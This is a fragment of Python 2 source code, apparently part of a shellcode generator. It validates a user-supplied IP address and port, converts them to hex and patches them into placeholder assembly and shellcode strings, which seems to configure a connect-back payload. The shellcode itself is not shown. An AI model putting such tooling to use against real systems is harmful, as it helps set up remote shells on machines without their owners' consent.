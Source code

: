 ```

if len(sys.argv) != 3:
    print 'Usage: ' + sys.argv[0] + ' <ip> <port>'
    sys.exit()

ip = sys.argv[1]
port = sys.argv[2]
print "Chosen ip: %s" % ip
print "Chosen port: %s" % port
ip_chunks = []

try:
    socket.inet_aton(ip)
    ip_chunks = ip.split(".")
    if len(ip_chunks) < 4:
        print "Although IP appears legal, we are assuming 4 chunks (i.e 127.0.0.1)"
        sys.exit()
except socket.error:
    print "IP does not appear to be legal"
    sys.exit()

int_port = int(port)
if int_port > 65535:
    print "Port choice is greater than max value (65535)"
    sys.exit()

ip_hex_1 = hex(int(ip_chunks[0]))
ip_hex_2 = hex(int(ip_chunks[1]))
ip_hex_3 = hex(int(ip_chunks[2]))
ip_hex_4 = hex(int(ip_chunks[3]))

ip_hex_1 = ip_hex_1.replace("0x", "")
ip_hex_2 = ip_hex_2.replace("0x", "")
ip_hex_3 = ip_hex_3.replace("0x", "")
ip_hex_4 = ip_hex_4.replace("0x", "")

first_ip_asm = first_ip_asm.replace("[1]", ip_hex_1)
second_ip_asm = second_ip_asm.replace("[2]", ip_hex_2)
third_ip_asm = third_ip_asm.replace("[3]", ip_hex_3)
fourth_ip_asm = fourth_ip_asm.replace("[4]", ip_hex_4)

print first_ip_asm
print second_ip_asm
print third_ip_asm
print fourth_ip_asm

htons_port_val = socket.htons(int_port)
hex_port_value = hex(htons_port_val)

cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."
shellcode = shellcode.replace("[i4]", fourth_ip_asm)
shellcode = shellcode.replace("[i3]", third_ip_asm)
shellcode = shellcode.replace("[i2]", second_ip_asm)
shellcode = shellcode.replace("[i1]", first_ip_asm)

```